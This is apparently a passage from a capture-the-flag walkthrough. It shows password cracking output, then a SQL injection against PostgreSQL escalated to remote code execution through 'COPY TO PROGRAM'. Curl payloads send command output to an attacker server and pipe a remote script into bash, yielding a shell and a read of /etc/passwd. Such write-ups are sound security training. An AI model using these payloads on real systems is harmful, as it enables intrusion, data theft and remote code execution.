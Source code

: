 ```bash

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit =>
```

## RCE through the SQLi

Looking at hacktricks, we can use this to get RCE
```sql
"'copy (SELECT '') to program 'curl http://10.10.14.117:8000?f=`ls -la|base64`'"
```
```bash
printf 'dG90YWwgODQKZHJ3eC0tLS0tLSA2IHBvc3RncmVzIHBvc3RncmVzIDQwOTYgTWF5ICA0IDE4OjU5'|base64 -d
total 84
drwx------ 6 postgres postgres 4096 May  4 18:59
```

```sql
"'copy (SELECT '') to program 'curl http://10.10.14.117:8000?f=`id|base64`'"
```
```bash
printf 'dWlkPTExNChwb3N0Z3JlcykgZ2lkPTEyMChwb3N0Z3JlcykgZ3JvdXBzPTEyMChwb3N0Z3Jlcyks'|base64 -d
uid=114(postgres) gid=120(postgres) groups=120(postgres),
```

```sql
"copy (SELECT '') to program 'curl http://10.10.14.117:8000/zoinks.sh|bash'"
```
```bash
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.216 - - [10/Jun/2023 15:17:15] "GET / HTTP/1.1" 200 -
10.10.11.216 - - [10/Jun/2023 15:17:27] "GET /zoinks.sh HTTP/1.1" 200 -
10.10.11.216 - - [10/Jun/2023 15:18:21] "GET /zoinks.sh HTTP/1.1" 200 -
```

And we get a shell as protgres
```bash
$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 Mar  7 13:00 .
drwxr-xr-x 19 root   root   4096 May  4 18:59 ..
drwxr-x---  6 jovian jovian 4096 May  4 18:59 jovian
drwxr-x---  8 juno   juno   4096 May  4 12:10 juno
$
$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
juno:x:1000:1000:juno:/home/juno:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
```
